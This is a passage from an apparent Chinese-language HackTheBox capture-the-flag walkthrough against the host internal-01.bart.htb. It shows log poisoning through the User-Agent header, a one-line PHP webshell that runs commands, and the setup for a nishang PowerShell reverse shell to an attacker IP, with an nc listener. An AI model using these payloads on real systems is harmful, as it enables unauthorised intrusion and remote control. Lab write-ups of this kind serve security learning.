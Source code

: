 使用 BurpSuite 截取点击log后的数据包，将请求参数 filename 修改为phpinfo.php，User-agent 修改为`<?php phpinfo();?>`

![截图](727bb53834983905a0ed69b60616ec39.png)

发送成功后访问/log/phpinfo.php，成功解析为php脚本语言，这也就意味着我们的猜测正确。

尝试获取webshell，将文件名修改为mac1.php，内容为PHP一句话木马

```
<?php system($_GET['cmd']);?>
```

访问木马地址http://internal-01.bart.htb/log/mac1.php?cmd=whoami，可成功执行命令

## 反弹shell

使用 nishang 中的 Invoke-PowerShellTcp.ps1 脚本来构造反弹

```
cp /root/Desktop/nishang/Shells/Invoke-PowerShellTcp.ps1
```

在脚本最终添加需要反弹的地址和端口

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 5555
```

使用 python 开启 http 服务

```
python -m SimpleHTTPServer 80
```

在本地监听5555端口

```
nc -nvlp 5555
```
